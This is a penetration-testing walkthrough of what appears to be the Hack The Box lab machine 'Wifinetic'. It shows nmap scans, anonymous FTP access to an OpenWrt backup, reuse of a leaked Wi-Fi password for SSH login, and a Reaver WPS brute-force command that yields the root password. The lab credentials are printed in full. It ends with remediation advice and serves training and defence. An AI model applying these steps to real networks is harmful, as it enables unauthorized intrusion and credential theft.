



# Walkthrough 


## Information Gathering: 

The following nmap scans were conducted against the target: 

All port scan (`-p-`)
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
53/tcp open  domain
```


`-sC -sV` scan:
```
PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.186
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31  2023 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31  2023 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31  2023 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11  2023 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31  2023 employees_wellness.pdf
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
53/tcp open  tcpwrapped
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

`sudo nmap -sU -sT -p 53 -sV 10.129.229.90`
```
PORT   STATE         SERVICE    VERSION
53/tcp open          tcpwrapped
53/udp open|filtered domain
```


## Vulnerability Assessment: 

The FTP service allows anonymous logins, making it trivial for an attacker to access and download the files contained within the FTP service:




The FTP server contains a backup file containing sensitive information. This file was extracted for enumeration and was found to contain two files in particular that grant an attacker initial access to the target. They are: 

`passwd`
`/config/wireless`





```
┌──(sovren㉿archkali)-[~/…/HTB/Wifinetic/etc/config]
└─$ cat wireless

config wifi-device 'radio0'
        option type 'mac80211'
        option path 'virtual/mac80211_hwsim/hwsim0'
        option cell_density '0'
        option channel 'auto'
        option band '2g'
        option txpower '20'

config wifi-device 'radio1'
        option type 'mac80211'
        option path 'virtual/mac80211_hwsim/hwsim1'
        option channel '36'
        option band '5g'
        option htmode 'HE80'
        option cell_density '0'

config wifi-iface 'wifinet0'
        option device 'radio0'
        option mode 'ap'
        option ssid 'OpenWrt'
        option encryption 'psk'
        option key 'VeRyUniUqWiFIPasswrd1!'
        option wps_pushbutton '1'

config wifi-iface 'wifinet1'
        option device 'radio1'
        option mode 'sta'
        option network 'wwan'
        option ssid 'OpenWrt'
        option encryption 'psk'
        option key 'VeRyUniUqWiFIPasswrd1!'
```

After enumerating users from the /etc/passwd file, the password found in `wireless` was used to test for credential reuse:

Login successful with `netadmin:VeRyUniUqWiFIPasswrd1!`, granting an attacker initial access to the target.




## Privilege Escalation:


### hostapd:


```
netadmin@wifinetic:~$ find / -name hostapd 2>/dev/null
/usr/sbin/hostapd
/usr/share/doc/hostapd
/usr/share/lintian/overrides/hostapd
/etc/hostapd
/etc/network/if-pre-up.d/hostapd
/etc/network/if-post-down.d/hostapd
/etc/init.d/hostapd
/etc/default/hostapd
/run/hostapd
```


```
╔══════════╣ Analyzing Hostapd Files (limit 70)
-rw-r--r-- 1 root root 113611 Aug  7  2019 /usr/share/doc/hostapd/examples/hostapd.conf
interface=wlan0
logger_syslog=-1
logger_syslog_level=2
logger_stdout=-1
logger_stdout_level=2
ctrl_interface=/var/run/hostapd
ctrl_interface_group=0
ssid=test
hw_mode=g
channel=1
beacon_int=100
dtim_period=2
max_num_sta=255
rts_threshold=-1
fragm_threshold=-1
macaddr_acl=0
auth_algs=3
ignore_broadcast_ssid=0
wmm_enabled=1
wmm_ac_bk_cwmin=4
wmm_ac_bk_cwmax=10
wmm_ac_bk_aifs=7
wmm_ac_bk_txop_limit=0
wmm_ac_bk_acm=0
wmm_ac_be_aifs=3
wmm_ac_be_cwmin=4
wmm_ac_be_cwmax=10
wmm_ac_be_txop_limit=0
wmm_ac_be_acm=0
wmm_ac_vi_aifs=2
wmm_ac_vi_cwmin=3
wmm_ac_vi_cwmax=4
wmm_ac_vi_txop_limit=94
wmm_ac_vi_acm=0
wmm_ac_vo_aifs=2
wmm_ac_vo_cwmin=2
wmm_ac_vo_cwmax=3
wmm_ac_vo_txop_limit=47
wmm_ac_vo_acm=0
eapol_key_index_workaround=0
eap_server=0
own_ip_addr=127.0.0.1
```


```
netadmin@wifinetic:/tmp$ iwconfig
wlan2     IEEE 802.11  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

hwsim0    no wireless extensions.

lo        no wireless extensions.

wlan1     IEEE 802.11  ESSID:"OpenWrt"
          Mode:Managed  Frequency:2.412 GHz  Access Point: 02:00:00:00:00:00
          Bit Rate:18 Mb/s   Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=70/70  Signal level=-30 dBm
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:8   Missed beacon:0

eth0      no wireless extensions.

mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on

wlan0     IEEE 802.11  Mode:Master  Tx-Power=20 dBm
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

The target machine has Reaver installed. Reaver is a command-line tool for Linux that performs a brute-force attack against Wi-Fi Protected Setup (WPS) PINs to recover WPA or WPA2 passphrases. It is commonly used by network administrators and security professionals on penetration testing distributions like Kali Linux to audit wireless router vulnerabilities.

The netadmin user has access to the reaver command. This was used to run reaver against the mon0 interface which revealed another password:

```
reaver -i mon0 -b 02:00:00:00:00:00
```

`WhatIsRealAnDWhAtIsNot51121!`

The password discovered was used to `su root` and was successful. 


# Summary: 


The assessment identified multiple security weaknesses that enabled complete compromise of the target. Initial enumeration revealed FTP, SSH, and DNS services, with the FTP service permitting anonymous access. Sensitive files, including an OpenWrt backup archive, were accessible through the anonymous FTP service. Examination of the backup identified configuration files containing a wireless PSK, which was subsequently found to be reused as the password for the netadmin account, providing initial SSH access to the target. Post-exploitation enumeration identified multiple wireless interfaces and the presence of the Reaver WPS auditing utility, which the netadmin user was able to execute against the system's monitor interface. This resulted in the recovery of an additional password, which was successfully reused to authenticate as the root user. The combination of unauthenticated access to sensitive backups, credential reuse, and excessive privileges for wireless security tooling ultimately allowed full administrative compromise of the system. The primary security recommendations are to disable anonymous FTP access, prevent sensitive configuration and backup files from being exposed, use unique credentials for system and wireless services, and restrict access to security-sensitive utilities such as Reaver.
